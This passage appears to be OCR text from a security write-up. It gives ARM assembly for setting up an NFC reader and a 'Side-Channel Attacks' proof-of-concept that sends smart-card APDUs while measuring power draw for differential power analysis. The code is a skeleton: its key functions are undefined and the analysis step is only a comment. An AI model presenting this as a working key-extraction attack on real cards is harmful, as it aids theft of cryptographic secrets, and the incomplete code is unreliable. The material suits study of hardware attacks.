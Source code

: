 ```assembly

initialize:
    ; Initialize environment and hardware
    ldr r0, =0x10000000          ; Example base address for NFC reader configuration
    mov r1, #0x1                 ; Example configuration value
    str r1, [r0]                 ; Write configuration value to NFC reader base address

    ; Clear the response buffer
    ldr r2, =response_buffer
    mov r3, #256
    mov r4, #0x00

clear_buffer:
    strb r4, [r2], #1
    subs r3, r3, #1
    bne clear_buffer

    mov pc, lr                   ; Return from function
```

## 5. Side-Channel Attacks

### Overview
Side-channel attacks exploit physical characteristics of the device (e.g., power consumption, electromagnetic emissions) to extract sensitive information like cryptographic keys.

### PoC Code

```assembly
.section .data
    select_ndef_applet: .byte 0x00, 0xA4, 0x04, 0x00, 0x07, 0xD2, 0x76, 0x00, 0x00, 0x85, 0x01, 0x01, 0x00
    authenticate_command: .byte 0x00, 0x88, 0x00, 0x00, 0x10  ; Authentication command
    response_buffer: .space 256
    apdu_length: .word 5

.section .bss
    ldr_buffer: .space 256
    power_trace_buffer: .space 512  ; Buffer to store power consumption traces

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =select_ndef_applet  ; Load address of APDU command
    ldr r1, =response_buffer     ; Load address of response buffer
    ldr r2, =apdu_length         ; Load length of APDU command
    bl send_apdu                 ; Call send_apdu function

    ; Check the response
    ldr r3, =response_buffer
    ldrb r4, [r3]                ; Load the first byte of the response
    cmp r4, #0x90                ; Check if the response is 0x90 (successful execution)
    bne error                    ; If not, branch to error

    ; Perform authentication and measure power consumption
    ldr r0, =authenticate_command ; Load address of APDU command for authentication
    ldr r2, =apdu_length          ; Load length of APDU command
    bl measure_power_during_apdu  ; Call function to measure power consumption

    ; Analyze power trace (e.g., perform differential power analysis)
```